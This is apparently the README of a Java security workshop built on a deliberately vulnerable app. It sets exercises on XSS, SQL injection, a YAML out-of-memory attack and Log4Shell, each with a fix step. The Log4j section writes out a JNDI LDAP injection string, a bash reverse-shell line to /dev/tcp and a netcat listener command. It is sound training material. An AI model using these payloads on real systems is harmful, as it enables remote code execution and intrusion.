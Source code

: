 # Jfokus Security Workshop 2022

## Setting up
Clone the repository

```
git clone https://github.com/bmvermeer/java-security-code-workshop.git 
```

Now you have **2 options** to build and run the application

- Build and run using docker

    ```
    docker-compose up 
    ```
    or if you want to (re)build everything:

    ```
    docker-compose up --build
    ```
- Run on your local machine if Java 8 and Maven are installed
    ```
    mvn clean package
    mvn spring-boot:run
    ```
Go to http://localhost:8081/ to see the application

### Login
- Username: `admin`
- Password: `foobar`

## Assignment 1
### Cross-site scripting

You can click on the username on the search page to show you more details.
This page is vulnerable to a cross-site scripting attack.
![DirectLink1](image/directlink.png)
![DirectLink2](image/directlink2.png)

### 1a Try to create an alert loading the page
- [Hint 1](hints/xss/hint1.md)
- [Hint 2](hints/xss/hint2.md)

### 1b Try to display the token of a user that is on the page

- [Hint 3](hints/xss/hint3.md)
- [Hint 4](hints/xss/hint4.md)

### 1c Fix by sanitizing the input

- [Hint 5](hints/xss/hint5.md)
- [Hint 6](hints/xss/hint6.md)
- [Hint 7](hints/xss/hint7.md)



## Assignment 2
### SQL injection

On the Search page, you can search the users by **username**.
By using a `%` you can provide wildcards. For instance, `Super%` will give you the result for **Superman**
Using the search term `%man`

![Search](image/search.png)

### 2a Try to create a search phrase that searches for the **firstname** 'Bruce'

- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 2b Try to override every **lastname** with 'EVIL'
- [Hint 3](hints/sqli/hint3.md)
- [Hint 4](hints/sqli/hint4.md)

### 2c Fix the vulnerability
- [Hint 5](hints/sqli/hint5.md)
- [Hint 6](hints/sqli/hint6.md)
- [Hint 7](hints/sqli/hint7.md)

## Assignment 3
### Denial of Service

Click on `import` to import new users using a YAML file.
![import](image/import.png)
![yaml](image/yaml.png)

### 3a Upload 2 new users using a YAML file similar to this
```yaml
user:
  -
    firstname: Matt
    lastname: Murdock
    username: Daredevil
    password: BlindFighter
    comment: "Lives in Hell's Kitchen NYC and is blind."
  -
    firstname: Dick
    lastname: Grayson
    username: Robin
    password: boyWonder
    comment: "The junior counterpart of Batman"
```

### 3b Try to cause a java.lang.OutOfMemoryError Exception
- [Hint 1](hints/dos/hint1.md)
- [Hint 2](hints/dos/hint2.md)
- [Hint 3](hints/dos/hint3.md)

### 3c Fix the vulnerability
- [Hint 4](hints/dos/hint4.md)
- [Hint 5](hints/dos/hint5.md)
- [Hint 6](hints/dos/hint6.md)



## Assignment 4 (Bonus assignment)
### Log4j

For this exercise, you need `netcat` installed on your local machine.
Also, you MUST run this application from a Docker container.

This application uses a vulnerable version of log4j. We can use this to access a serialization gadget chain available in the classpath to execute commands.

### 4a go to the login screen and submit a wrong username / password combination
You will notice that in the logs, an error statement is logged containing the username.

### 4b startup the evil LDAP server
From the root of the project, do the following:

```
cd exploits/log4shell-server/
mvn clean package 
mvn exec:java
```

### 4c Launch netcat
In a new terminal window launch Netcat listening to port 9001
```
ncat -lvp 9001
```

### 4d launch the attack
The exploit server will create a serialized java payload containing a gadget chain from the outdated Apache `commons-collections` library.
This payload will try to execute following statement to create a reversed shell: `"$@| bash -i >& /dev/tcp/host.docker.internal/9001 0>&1"`

From your Docker container, connect to the LDAP server on your local machine

Use below as the username with any given password 
```
${jndi:ldap://host.docker.internal:9999/Commons}
```



If everything works out, you just executed a reverse shell command to port 9001.
Because your Netcat is listening to this, you now have shell access to that machine. The terminal you started Netcat in should now look similar to this.

![ncat](image/ncat.png)

Play around as you now have remote access to this machine by leveraging a remote code execution.








